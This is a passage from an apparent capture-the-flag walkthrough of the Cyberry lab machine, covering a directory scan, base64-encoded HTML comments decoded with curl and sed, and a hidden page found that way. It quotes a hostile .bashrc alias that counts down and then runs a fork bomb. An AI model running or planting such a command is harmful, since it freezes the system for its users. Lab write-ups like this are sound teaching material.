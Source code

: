 ```
http://192.168.198.128/phpmyadmin (Status: 301)
=====================================================
```

### Fork Bomb :bomb:

There was something sinister lurking in `.bashrc`  

`alias ls='echo "Cyberry Intrusion Detection activated\nsystem failsafe mode will begin in:"; sleep 1; echo "5"; sleep 1; echo "4"; sleep 1; echo "3"; sleep 1; echo "2"; sleep 1; echo "1"; sleep 1; :(){ :|: & };:`

A fork bomb!

### HTML Comments

There were several HTML comments in the source code encoded in `base64`.

![comments.png](/assets/images/posts/cyberry-walkthrough/cyberry-1.png)

Decoding the above strings revealed the following.

```
# curl -s 192.168.198.128 | sed -n '/<!--/,/-->/p' | tr -cd 'a-zA-Z0-9=\n' > base64.txt
```
```
# for b in $(cat base64.txt); do (echo $b | base64 -d && echo); done
nice try!
nothing to see here!
time to move on!
secretfile.html
work-in-progress.png
```

Requesting for `/secretfile.html` further revealed more binary strings.

```
curl -i 192.168.198.128/secretfile.html
HTTP/1.1 200 OK
Date: Mon, 22 Jan 2018 15:09:17 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Thu, 23 Nov 2017 22:05:33 GMT
ETag: "f4-55eada29aaddf"
Accept-Ranges: bytes
Content-Length: 244
Vary: Accept-Encoding
Content-Type: text/html

<html>
<head>
<body>
<p><b>Congratulations... you must be an uberhacker!</b></p>
<br />
<br />
<p>Can you progress any further?? </p>
<br />
<br />

<p>01100010 01101111 01110011 01110011 00101110 01100111 01101001 01100110</p>
</body>
</html>
```
